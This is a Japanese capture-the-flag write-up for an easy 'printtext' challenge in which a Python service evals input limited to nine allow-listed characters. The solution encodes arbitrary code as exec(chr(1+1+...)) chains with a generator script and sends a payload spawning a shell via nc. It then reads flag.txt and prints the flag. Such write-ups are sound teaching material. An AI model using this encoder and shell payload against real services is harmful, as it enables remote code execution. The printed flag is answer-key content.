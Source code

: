 # printtext💘

## 問題文
print(text)!!!!!  
`nc 160.251.76.58 54321`  
[app.py](files/app.py)  

## 難易度
**easy**  

## 作問にあたって
Pyfuck問を作りたくて出しました(参考:[Pyfuck -- Esoteric Python using only [(+travels')].](https://github.com/wanqizhu/pyfuck))。  
直前にSECCONが開催されたのですが、そこでの`hitchhike`の解法がこの問題の非想定解で慌てて修正しました。  
Proは怖いですね。  

## 解法
接続先とapp.pyが配布される。  
app.pyは以下のようであった。  
```python
import os
import sys

os.environ["PAGER"] = "cat" #No hitchhike :)

print("""            _       _    __  _            _    __
 _ __  _ __(_)_ __ | |_ / / | |_ _____  _| |_  \ \\
| '_ \| '__| | '_ \| __| |  | __/ _ \ \/ / __|  | |
| |_) | |  | | | | | |_| |  | ||  __/>  <| |_   | |
| .__/|_|  |_|_| |_|\__| |   \__\___/_/\_\\__|  | |
|_|                     \_\                    /_/

Can you evaluate `print(text)`?
They don't seem to have the flag.
""")

text = "I don't have the flag."

allow_list = input("allow_list> ")[:9]
print(f"your allow_list: {list(allow_list)}")
eval_code = input("eval_code> ")

for c in eval_code:
    if c not in allow_list:
        print(f"Hi, {c}!")
        sys.exit()

print("Let’s roll!!")
eval(eval_code)
```
9種類の文字制限で記述されたコードを`eval`しているようだ。  
`help()`でページャーからシェルを取得するのはブロックされている。  
ここでpythonは`chr(11+11+11+11+11+11)`などで文字`B`を作成できる。  
つまり任意の文字を`chr(1+1+...)`などで作成し、`+`で連結しすることで任意のコードが記述できる。  
`chr(+1)`で7文字なので、あと2文字追加できる。  
`exec`ならば`ex`の二文字で実現できる。  
これにより`exec(chr(1+1+..)+chr(1+1+..)+...)`で任意コード実行ができる。  
textをこの形式に変換するスクリプトoreore_pyfuck.pyを以下のように記述した。  
```python
code = input()
out_f = open("output.txt", "w")
pyfuck = "exec("
pyfuck += "+".join([f"chr({'+1'*ord(c)})" for c in code])
pyfuck += ")"

for p in pyfuck:
    if p not in "exchr(+1)":
        print("Error:exchr(+1)")
        pyfuck = ""
        break

out_f.write(pyfuck)
out_f.close()
```
あとはシェルを起動する`__import__("os").system("sh")`などをこのスクリプトにかけて、出てきたものをncで送信すればよい。  
```
$ python oreore_pyfuck.py
__import__("os").system("sh")
$ (echo -e "exchr()+1\n$(cat output.txt)\n" ; cat) | nc 160.251.76.58 54321
            _       _    __  _            _    __
 _ __  _ __(_)_ __ | |_ / / | |_ _____  _| |_  \ \
| '_ \| '__| | '_ \| __| |  | __/ _ \ \/ / __|  | |
| |_) | |  | | | | | |_| |  | ||  __/>  <| |_   | |
| .__/|_|  |_|_| |_|\__| |   \__\___/_/\_\__|  | |
|_|                     \_\                    /_/

Can you evaluate `print(text)`?
They don't seem to have the flag.

allow_list> your allow_list: ['e', 'x', 'c', 'h', 'r', '(', ')', '+', '1']
eval_code> ls
app.py
flag.txt
cat flag.txt
imctf{7h3_c0d3_15_45_l0n6_45_4_py7h0n}
```
内部のファイルからflagが得られた。  

## imctf{7h3_c0d3_15_45_l0n6_45_4_py7h0n}
